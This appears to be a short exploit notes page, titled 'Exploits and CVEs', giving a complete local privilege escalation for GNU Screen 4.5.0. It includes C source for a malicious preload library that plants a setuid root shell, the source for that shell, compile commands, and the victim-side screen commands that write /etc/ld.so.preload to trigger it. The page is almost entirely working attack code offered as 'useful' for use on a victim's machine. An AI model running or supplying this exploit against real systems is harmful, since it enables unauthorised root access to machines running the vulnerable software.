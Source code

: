 # Exploits and CVEs

Some useful exploits.

___

### GNU Screen 4.5.0 - Local Privilege Escalation 

**libhax.so**

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

**rootshell.c**

```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

Compile both files and transfer them to victim's machine.

```bash
kali@kali:~$ gcc -fPIC -shared -ldl -o libhax.so libhax.c
kali@kali:~$ gcc -static -o rootshell rootshell.c
```

After transfer:

```bash
victim@machine:/tmp$ cd /etc
victim@machine:/etc$ umask 000 # because
victim@machine:/etc$screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
victim@machine:/etc$ screen -ls
victim@machine:/etc$ /tmp/rootshell
```

___